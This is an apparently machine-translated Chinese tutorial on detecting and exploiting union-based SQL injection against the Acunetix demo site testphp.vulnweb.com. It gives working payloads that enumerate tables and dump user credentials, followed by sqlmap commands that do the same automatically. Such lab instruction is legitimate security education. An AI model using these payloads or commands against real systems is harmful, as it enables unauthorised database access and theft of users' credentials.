# 识别和利用 SQL 注入:手动和自动

> 原文：<https://infosecwriteups.com/identifying-exploiting-sql-injection-manual-automated-79c932f0c9b5?source=collection_archive---------0----------------------->

在本文中，我们将从识别 SQL 注入漏洞开始&如何利用易受攻击的应用程序。此外，我们将深入研究自动化工具:Sqlmap，它将缓解攻击升级。

让我们从基础开始:

## 什么是 SQL 注入？

SQL 注入攻击包括通过从客户端到应用程序的输入数据进行的**SQL 查询的**“插入/注入”**。成功的 SQL 注入漏洞利用——可以**从数据库中读取/修改**(插入/更新/删除)敏感数据，**执行管理操作**(例如关闭 DBMS)，**恢复 DBMS 文件系统上给定文件的内容**，在某些情况下**向操作系统发出命令**。**

SQL 注入攻击——其中 SQL 命令被注入到数据平面输入中，以便**影响预定义 SQL 命令的执行**。— OWASP。

> ***简而言之:*** SQLi 攻击干扰预定义的 SQL 查询，以获取敏感信息或对数据库执行未经授权的操作。



## **SQLi 的类型:**

1.  基于联合的 SQLi
2.  基于错误的 SQLi
3.  盲 SQLi
    i)基于时间的 SQLi
    ii)基于布尔的 SQLi

这里我们将关注基于联合的 SQL 注入。

# 基于联合的 SQL 注入

在基于 Union 的 SQL 注入中，我们试图修改现有的 SQL 查询，以便从数据库中检索敏感信息。

## 步骤:

1.  找到一个易受攻击的参数来中断现有的 SQL 查询。输入结束引号— `”`或`’`。注意应用程序的意外行为。如果应用程序抛出一些错误，那么它可能容易受到 SQLi 的攻击。

我们将在 acune tix:**的一个易受攻击的演示站点上测试 SQLi。**

*登录应用程序，检查放置额外的`”`或`’`的界面是否有任何不当行为。*

*注意网址:[http://testphp.vulnweb.com/artists.php?cat=1](http://testphp.vulnweb.com/artists.php?artist=1)*

*尝试在参数**类别**中插入一个引号。*

**

*比方说，查询是—某个 cat ='1 '的东西*

*我们在注入一个`’`时得到一个错误，因此参数 **cat** 可能容易受到 SQLi 的攻击。*

**

*当最终查询变成—某样东西 cat ='1 ' '*

*2.让我们尝试在参数 **cat** 中插入一个始终为真的条件作为`‘+OR+1=1 --`或`‘ OR 1=1 --`。看看能不能找到什么有趣的东西。*

**

*遗憾的是，我们没有得到任何有趣的信息。*

> *或者如果你知道数据库中使用的 ***table_names*** (比如说，*用户名* & *密码*)，你可以直接使用查询`‘ UNION SELECT username, password FROM users --`来选择数据库中的所有用户。*

*3.但是在这里，由于我们不知道 *table_names，*我们将从猜测数据库中*列的数量*开始。使用查询`order by 10--`。根据数据库中使用的报价，相应地修改请求。在这里，我们没有得到任何错误，这证实了至少有 10 列存在。*

**

*查询—某样东西 cat ='1 order by 10 —(忽略& rest)*

*修改查询为`order by 15--`。*

**

*查询—某样东西 cat ='1 order by 15 —(忽略& rest)*

*我们得到一个 SQL 错误，因此 15 不是正确的值。*

*现在，这里写着 **10 <栏数< 15** 。*

*继续将该值减少到 14..13..12，我们仍然得到 SQL 错误&一旦我们到达 11，错误就消失了。这得出的结论是**列数=11。***

**

*查询—某样东西 cat ='1 order by 11 —(忽略& rest)*

> ***注意:**根据数据库接受的值，如果数据库接受一个字符串值，您可能会得到一个数字 10(整数)的错误。因此，您可以使用`NULL`或`*null*`，它们将被接受为有效参数。因此，对 3 列的查询将变成`order by null, null, null--`。这里，为了简化查询，我使用数字，因为我们知道这是一个有效的参数。*

*5.现在，我们知道数据库中的*列*的数量是 11。我们将寻找可以读取的易受攻击的*列*。使用查询`union select 1,2,3,4,5,6,7,8,9,10,11--`。这将从易受攻击的*列*中检索详细信息。*

*参考下图，我们得到了数字:2，7 和 9。因此，*列* 2，7 & 9 易受 SQLi 攻击。*

**

*query-something cat = ' 1 union select 1，2，3，4，5，6，7，8，9，10，11 —(忽略& rest)*

*6.现在，我们得到了易受攻击的*列* (2，7，9)。我们将使用它们来检索其他信息。首先是数据库名。使用查询`union select 1,database(),3,4,5,6,7,8,9,10,11 --`。这将反映数据库名称，而不是 2。或者使用查询`union select 1,2,3,4,5,6,database(),8,9,10,11--`。这将反映数据库名称，而不是 7。*

**

*查询— something cat ='1 union select 1，database()，3，4，5，6，7，8，9，10，11 —(忽略& rest)*

*我们得到了数据库名— **acuart。***

*7.现在，我们将尝试从 DB **acuart 中获取 *table_name* 。**使用查询`union select 1,table_name,3,4,5,6,7,8,9,10,11 from information_schema.tables where table_schema=database()--`。相应地修改列。*

*我们用*表名*代替了 2。*

**

*query-something cat = ' 1 union select 1，table_name，3，4，5，6，7，8，9，10，11 from information _ schema . tables 其中 table _ schema = database()—(& rest 被忽略)*

*我们将追踪*table _ name***users**，你知道为什么。*

*8.现在我们有了数据库(acuart)和表名(users)。我们将选择*列名*。使用查询`union select 1,column_name,3,4,5,6,7,8,9,10,11 from information_schema.columns where table_name='users' --`*

*瞧啊。我们得到了各列 **uname** & **的通行证。***

**

*query-something cat = ' 1 union select 1，column_name，3，4，5，6，7，8，9，10，11 from information _ schema . columns where table _ name = ' users '—(& rest 被忽略)*

*9.最后我们得到了*表 _ 名* & *列 _ 名*。是时候扔掉凭证了。使用查询`union select 1,uname,3,4,5,6,pass,8,9,10,11 from users --`。因为值 7 也是易受攻击的，所以我们可以在那里检索细节。向下滚动到底部查看结果。*

**

*来自用户的查询- something cat ='1 union select 1，uname，3，4，5，6，pass，8，9，10，11—(忽略& rest)*

*最后，我们在 uname:**test**&pass:**test 中得到用户的凭证。***

*10.如果只有 1 个参数(此处为值 2)可检索。使用 **group_concat** 将这些值连接在一起。As: `union select 1, group_concat(email,’:’,uname,’:’,pass),3,4,5,6,7,8,9,10,11 from users --`*

**

*union select 1，group_concat(email，':'，uname，':'，pass)，3，4，5，6，7，8，9，10，11 from users —*

*哼！SQL 注入就是猜测和尝试。要得到完美查询，可能需要反复试验。*

*让我们深入研究一下自动化工具，它可能有助于利用 SQL 注入。*

**

# *通过 SQLMAP 利用 SQL 注入*

*SQLMAP 是一个开源的渗透测试工具，它自动执行检测和利用 SQL 注入漏洞以及接管数据库服务器的过程。它配备了一个强大的检测引擎，许多针对终极渗透测试器的利基功能，以及一系列广泛的开关，包括数据库指纹，从数据库获取数据，访问底层文件系统和通过带外连接在操作系统上执行命令。*

*你可以从[这里](http://sqlmap.org/)了解更多关于 SQLMAP 的信息。*

*或者通过克隆 [Git](https://github.com/sqlmapproject/sqlmap) 存储库:`git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev`来下载 sqlmap*

*默认情况下，Parrot & Kali OS 已经预装了 SQLMAP。让我们看看 SQLMAP 中有哪些可用的选项。*

***使用命令:** `#sqlmap -h`图 1*

**

*图一*

*这里，我们将使用指定 URL & `--dbs`的`-u`来查询可用的数据库名称。*

*使用命令:`#sqlmap -u “[http://testphp.vulnweb.com/listproducts.php?cat=1](http://testphp.vulnweb.com/listproducts.php?cat=1)” --dbs`图 2*

**

*图 2*

*注意，在可用的数据库[2]中，我们有 2 个数据库名称。我们会去找阿夸特。图 3。*

*`[*] acuart
[*] information_schema`*

**

*图 3*

*现在，我们将在 DB acuart 中寻找可用的表。*

***使用命令:** `#sqlmap -u “[http://testphp.vulnweb.com/listproducts.php?cat=1](http://testphp.vulnweb.com/listproducts.php?cat=1)” -D acuart --tables`图 4*

**

*图 4*

*我们得到了数据库中的表列表。我们要去的桌子:`users`。图 5。*

**

*图 5*

***使用命令:** `#sqlmap -u “[http://testphp.vulnweb.com/listproducts.php?cat=1](http://testphp.vulnweb.com/listproducts.php?cat=1)” -D acuart -T users --dump`图 6*

**

*图 6*

*这里，`--dump`命令(图 6)从 users 表中转储可用的用户详细信息。因为这个表中只有一个用户(John Smith)，所以我们得到了一个单独的行(图 7)。如果有更多的用户，我们会得到相应的详细信息。*

**

*图 7*

## ***注意事项* **

**

*注意: Sqlmap 是一个嘈杂但功能强大的工具，小心使用，否则你会陷入一些严重的麻烦。在任何测试之前，做彻底的研究&了解你正在使用的命令，否则你可能会删除重要的数据库。*

> *谢谢！ [Aditya Jain](https://www.linkedin.com/in/adityajain27/?originalSubdomain=in) 简化了 SQL 注入攻击的概念。在你的指导下学习是令人难以置信的。*😊**